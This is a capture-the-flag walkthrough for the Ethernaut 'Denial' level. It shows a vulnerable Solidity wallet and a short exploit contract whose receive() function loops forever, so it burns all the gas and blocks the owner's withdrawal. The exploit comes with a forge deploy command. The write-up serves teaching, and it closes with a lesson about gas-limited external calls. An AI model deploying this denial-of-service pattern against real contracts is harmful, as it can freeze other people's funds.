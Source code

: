 ## Denial Level Outline

**Difficulty : 5/10**

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

## Solution

This level has a very similar solution to level 9_King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    Denial denial;

    constructor(address _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            // lets burn some gas
        }
    }

}

interface Denial {
    function setWithdrawPartner(address) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

### Important Lesson From This Level
This level demonstrates that external calls to unknown contracts can still create **denial of service attack vectors** if a fixed amount of gas is not specified.

### [:arrow_left: Back To Main Menu](../README.md)
